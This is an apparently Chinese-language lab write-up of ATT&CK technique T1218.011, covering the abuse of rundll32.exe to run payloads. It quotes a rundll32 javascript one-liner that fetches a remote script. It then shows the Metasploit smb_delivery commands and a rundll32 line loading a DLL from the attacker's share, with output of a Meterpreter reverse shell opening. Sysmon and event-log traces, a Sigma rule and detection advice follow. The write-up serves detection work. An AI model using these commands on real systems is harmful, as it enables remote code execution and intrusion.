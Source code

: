 # T1218-011-Win-使用Rundll32.exe执行payload（白名单）

## 来自ATT&CK的描述

Rundll32.exe程序可以调用来执行任意二进制文件。攻击者可能会利用此功能来代理执行代码，从而避免触发那些可能不会监控rundll32.exe进程执行的安全工具，因为正常操作中使用rundll32.exe的Windows会有白名单或误报。

Rundll32.exe可用于通过未记录的shell32.dll函数Control_RunDLL和 Control_RunDLLAsUser来执行控制面板项目文件（.cpl）。双击.cpl文件也会触发rundll32.exe执行。

Rundll32也可用于执行JavaScript等脚本。可以使用类似于下面的语法来完成：rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" 。这种方法已被恶意软件如Poweliks所使用。

## 测试案例

Rundll32.exe是指“执行32位的DLL文件”。它的作用是执行DLL文件中的内部函数,功能就是以命令行的方式调用动态链接程序库。

说明：Rundll32.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Rundll32调用。

windows 2003默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

win7默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

Windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/windows/smb/smb_delivery
msf5 exploit(windows/smb/smb_delivery) > set srvhost 192.168.126.146
srvhost => 192.168.126.146
msf5 exploit(windows/smb/smb_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Started service listener on 192.168.126.146:445
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\192.168.126.146\huwSj\test.dll,0
```

#### 靶机执行payload

```cmd
rundll32.exe \\192.168.126.146\huwSj\test.dll,0
```

#### 反弹shell

```bash
msf5 exploit(windows/smb/smb_delivery) > [*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.149:49381) at 2020-04-17 15:24:05 +0800
msf5 exploit(windows/smb/smb_delivery) > sessions

Active sessions
===============

  Id  Name  Type                     Information                         Connection
  --  ----  ----                     -----------                         ----------
  1         meterpreter x86/windows  12306Br0-PC\12306Br0 @ 12306BR0-PC  192.168.126.146:4444 -> 192.168.126.149:49381 (192.168.126.149)
msf5 exploit(windows/smb/smb_delivery) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
```

## 测试留痕

sysmon日志记录

```log
EVentID: 1
Image: C:\Windows\SysWOW64\rundll32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows host process (Rundll32)
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: RUNDLL32.EXE
CommandLine: rundll32.exe  \\192.168.126.146\huwSj\test.dll,0
```

win7安全日志记录

```log
EVentID: 4688
进程信息:
新进程 ID: 0xa30
新进程名: C:\Windows\SysWOW64\rundll32.exe

EVentID: 5158
应用程序信息:
进程 ID: 2608
应用程序名称: \device\harddiskvolume2\windows\syswow64\rundll32.exe

EVentID: 5156 #Windows 筛选平台已允许连接。
应用程序信息:
进程 ID:2608
应用程序名称: \device\harddiskvolume2\windows\syswow64\rundll32.exe

网络信息:
方向: 出站
源地址: 192.168.126.149
源端口: 49381
目标地址: 192.168.126.146
目标端口: 4444
```

## 检测规则/思路

### sigma

```yml
title: Suspicious Call by Ordinal
id: e79a9e79-eb72-4e78-a628-0e7e8f59e89c
description: Detects suspicious calls of DLLs in rundll32.dll exports by ordinal
status: experimental
references:
    - https://techtalk.pcmatic.com/2017/11/30/running-dll-files-malware-analysis/
    - https://github.com/Neo23x0/DLLRunner
    - https://twitter.com/cyb3rops/status/1186631731543236608
tags:
    - attack.defense_evasion
    - attack.execution
    - attack.t1085
author: Florian Roth
date: 2019/10/22
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        CommandLine: '*\rundll32.exe *,#*'
    condition: selection
falsepositives:
    - False positives depend on scripts and administrative tools used in the monitored environment
    - Windows contol panel elements have been identified as source (mmc)
level: high
```

### 建议

通过进程监控来检测和分析rundll32.exe的执行和参数。比较rundll32.exe的近期调用与历史已知合法参数及已加载动态链接库来确定是否有异常和潜在的攻击活动。在rundll32.exe调用之前和之后使用的命令参数也可用于确定正在加载的动态链接库的来源和目的。

## 参考推荐

MITRE-ATT&CK-T1218-011

<https://attack.mitre.org/techniques/T1218/011/>

windows下基于白名单获取shell的方法整理（上）

<http://www.safe6.cn/article/155>
